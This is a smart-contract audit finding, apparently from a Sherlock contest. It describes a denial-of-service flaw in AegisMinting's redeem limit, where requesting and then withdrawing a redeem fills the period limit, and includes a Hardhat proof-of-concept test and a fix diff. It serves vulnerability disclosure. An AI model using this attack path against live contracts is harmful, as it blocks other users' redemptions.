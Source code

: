 Nutty Gauze Gecko

High

# Attacker can prevent others from making a redeem request forever

### Summary

The attacker can call the [redeemRequest()](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L277) with the maximum amount of yusd to make the [redeemLimit.currentPeriodTotalAmount == redeemLimit.maxPeriodAmount](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L802) and then call the [withdrawRedeemRequest](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L377) to withdraw his whole yusd to himself. This means users have to wait until the next period to make a redeem request, but then the attacker can repeat this action, making everyone wait indefinitely.

### Root Cause

Since users can request redemption, and then withdraw their redemption request immediately with no loss of token, in [withdrawRedeemRequest](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L377), not subtracting the `yusdAmount` from `redeemLimit.currentPeriodTotalAmount` is a mistake and leads to preventing others from redeem requests because the redeem limit is reached.

### Internal Pre-conditions

1. The attacker needs to have `yusd`
2. The attacker needs to put in an amount of `yusd` to reach the redeem limit.
3. Admin needs to set the `redeemLimit.maxPeriodAmount` and `redeemLimit.periodDuration`

### External Pre-conditions

1. The attacker needs to be whitelisted to be able to call the `redeemRequest()` function

### Attack Path

1. Admin sets the `redeemLimit.maxPeriodAmount == 15e18` and `redeemLimit.periodDuration == 7 days`, and whitelists Alice.
2. Alice mints and receives 15e18 yusd, then calls the `redeemRequest()` with the maximum amount of yusd and locks it to reach the redeem limit.
3. Alice is then able to withdraw the redeem request and unlock the entire yusds. In this process, Alice doesn't lose any tokens.
4. Other whitelisted users cannot make a redeem request because the redeem limit is reached, but in reality, there is no locked yusd in the contract. They must wait 7 days for the next period to begin, but Alice can repeat the same actions and eventually prevent everyone from redeeming.

### Impact

The Whitelisted users can't request a redemption because a third-party person prevents them.

### PoC

Put this test in the `6_aegis_minting_redeem.spec.ts` file:
```ts
      it('should prevent others from making a redeem request', async () => {
        const [owner, sender] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, yusdContract, aegisConfig } = await loadFixture(deployFixture)

        await aegisConfig['whitelistAddress(address,bool)'](sender, true)

        // Set limits
        const redeemMaxAmount = ethers.parseEther('15')
        await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner)
        // 604800 == 7 days
        await aegisMintingContract.setRedeemLimits(604800, redeemMaxAmount)

        await yusdContract.setMinter(owner)
        // mint yusd for the sender to request redeem
        await yusdContract.mint(sender, redeemMaxAmount)
        await yusdContract.setMinter(aegisMintingAddress)
        // Approve YUSD to be sent by the AegisMinting contract from the sender
        await yusdContract.connect(sender).approve(aegisMintingAddress, ethers.parseEther('1000'))

        const requestId = 'test'
        const yusdAmount = redeemMaxAmount
        let blockTime = await time.latest()
        const redeemOrder = {
          orderType: OrderType.REDEEM,
          userWallet: sender.address,
          collateralAsset: assetAddress,
          collateralAmount: ethers.parseEther('20'),
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: yusdAmount,
          // We set the expiry to this to be able to call withdraw immediately
          expiry: blockTime + 1,
          nonce: Date.now(),
          additionalData: encodeString(requestId),
        }
        const signature = await signOrder(redeemOrder, aegisMintingAddress)

        await expect(aegisMintingContract.connect(sender).requestRedeem(redeemOrder, signature)).to.be.not.reverted

        const redeemLimit = await aegisMintingContract.redeemLimit()
        // redeem request limit reached
        expect(redeemLimit.currentPeriodTotalAmount).to.be.equal(redeemLimit.maxPeriodAmount)

        const benefactorYUSDBalanceBefore = await yusdContract.balanceOf(sender)

        await expect(aegisMintingContract.withdrawRedeemRequest(requestId)).to.be.not.reverted

        await expect(assetContract.balanceOf(aegisMintingAddress)).to.be.eventually.equal(0)
        await expect(yusdContract.balanceOf(sender)).to.be.eventually.equal(benefactorYUSDBalanceBefore + yusdAmount)

        // we used the same redeem order for simplicity
        await expect(aegisMintingContract.connect(owner).requestRedeem(redeemOrder, signature)).to.be.revertedWithCustomError(aegisMintingContract, 'LimitReached')
      })
```

### Mitigation

When the `AegisMinting` contract unlocks `yusd`, the `redeemLimit.currentPeriodTotalAmount` must be accounted for 
```diff
  function withdrawRedeemRequest(string calldata requestId) public nonReentrant whenRedeemUnpaused {
    
    // ...

    // Unlock YUSD
    totalRedeemLockedYUSD -= request.order.yusdAmount;
+    redeemLimit.currentPeriodTotalAmount -= request.order.yusdAmount;
    yusd.safeTransfer(request.order.userWallet, request.order.yusdAmount);

    emit WithdrawRedeemRequest(requestId, request.order.userWallet, request.order.yusdAmount);
  }
```

note that you can also add the line [here](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L353) and [here](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L700), but since it is controlled by the fund manager, it is optional, and it is based on your design and preferences